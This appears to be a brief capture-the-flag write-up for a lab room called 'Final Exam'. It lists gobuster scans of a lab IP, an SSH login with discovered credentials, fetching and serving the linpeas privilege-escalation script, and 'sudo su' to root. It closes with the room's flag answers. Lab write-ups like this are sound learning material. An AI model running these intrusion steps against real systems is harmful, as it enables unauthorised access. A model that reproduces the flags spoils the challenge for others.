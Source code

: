 # Final Exam 

scanning namp
```

```
gobuster scanning 
```
gobuster dir -u http://10.10.155.139/ -w /usr/share/wordlists/dirb/common.txt -t 500 | tee gobuster_hidden_folder_scanning.txt
```
hidden file scanning
```
gobuster dir -u http://10.10.155.139/secret/ -w /usr/share/wordlists/dirb/common.txt -x txt -t 500 | tee gobuster_hidden_file_scanning.txt
```
ssh to the server `user : nyan` and `password : nyan` 
```
ssh nyan@10.10.155.139
```

using linpeas to escalate privilage
```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```
start local python server to deliver
```
python -m http.server 80
```
first give the excute flag on
``` chmod +x linpeas.sh
```
for escalating the root privilage
```
sudo su
```

| Questions | Answers |
|-----------|---------|
| What is the user.txt ? | supernootnoot |
| What is the root.txt ? | congratulations!!!! |













